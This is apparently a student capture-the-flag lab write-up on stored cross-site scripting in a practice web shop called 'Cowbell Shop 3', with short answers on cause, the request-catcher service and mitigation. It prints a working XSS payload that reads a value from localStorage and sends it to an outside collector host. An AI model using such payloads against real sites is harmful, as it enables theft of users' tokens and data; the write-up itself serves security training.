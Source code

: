 # XSS - Cowbell Shop 3
## Prepare exploit
```html
<script type='text/javascript'> 
var oReq = new XMLHttpRequest(); 
oReq.open('GET','https://9cb018f7-81e6-4401-9f98-b0de24fc2195.idocker.vuln.land/extractedData='+JSON.stringify(localStorage.getItem('flag')));
oReq.send(); 
</script> 
```

## Security questions
1. What is the problem with the vulnerable web shop?  
The web app renders the script and execute the script as shown in the screenshot.

[](.\XSS - Cowbell Shop 3.png)
![IMAGE ALT TEXT HERE](1.png)

2. What is the purpose of the request catcher service?  

While the target is surfing on the site, the script is executed in the background. The execution of the script makes it possible to catch the token/flag of the target. The only thing that the "request catcher" makes is to catch, store and show the catched information (prepared Attacker side).

3. How would you mitigate that risk?

The server has to validate and santize the input on the first entry of the data. Especially the < > characters and decode if it's in base64. 